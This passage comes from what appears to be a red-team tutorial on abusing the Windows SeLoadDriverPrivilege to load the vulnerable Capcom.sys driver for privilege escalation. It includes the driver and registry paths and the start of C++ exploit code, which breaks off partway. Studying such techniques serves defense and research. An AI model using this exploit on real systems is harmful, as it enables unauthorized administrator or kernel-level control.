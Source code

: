 We compile the above, execute and the privilege `SeLoadDriverPrivilege` is now enabled:

![](../../.gitbook/assets/screenshot-from-2018-12-17-22-45-54.png)

### Capcom.sys Driver Exploit

To further prove the `SeLoadDriverPrivilege` is dangerous, let's exploit it to elevate privileges.

Let's build on the previous code and leverage the Win32 API call `ntdll.NtLoadDriver()` to load the malicious kernel driver `Capcom.sys`. Note that lines 55 and 56 of the `privileges.cpp` are:

```cpp
PCWSTR pPathSource = L"C:\\experiments\\privileges\\Capcom.sys";
PCWSTR pPathSourceReg = L"\\registry\\machine\\System\\CurrentControlSet\\Services\\SomeService";
```

The first one declares a string variable indicating where the vulnerable Capcom.sys driver is located on the victim system and the second one is a string variable indicating a service name that will be used \(could be any service\) when executing the exploit:

{% tabs %}
{% tab title="privileges.cpp" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>
#include <ntsecapi.h>
#include <stdlib.h>
#include <locale.h>
#include <iostream>
#include "stdafx.h"

NTSTATUS(NTAPI *NtLoadDriver)(IN PUNICODE_STRING DriverServiceName);
VOID(NTAPI *RtlInitUnicodeString)(PUNICODE_STRING DestinationString, PCWSTR SourceString);
NTSTATUS(NTAPI *NtUnloadDriver)(IN PUNICODE_STRING DriverServiceName);

int main()
{
	TOKEN_PRIVILEGES tp;
	LUID luid;
	bool bEnablePrivilege(true);
	HANDLE hToken(NULL);
	OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken);

	if (!LookupPrivilegeValue(
		NULL,            // lookup privilege on local system
		L"SeLoadDriverPrivilege",   // privilege to lookup 
		&luid))        // receives LUID of privilege
	{
		printf("LookupPrivilegeValue error: %un", GetLastError());
		return FALSE;
	}
	tp.PrivilegeCount = 1;
	tp.Privileges[0].Luid = luid;
	
```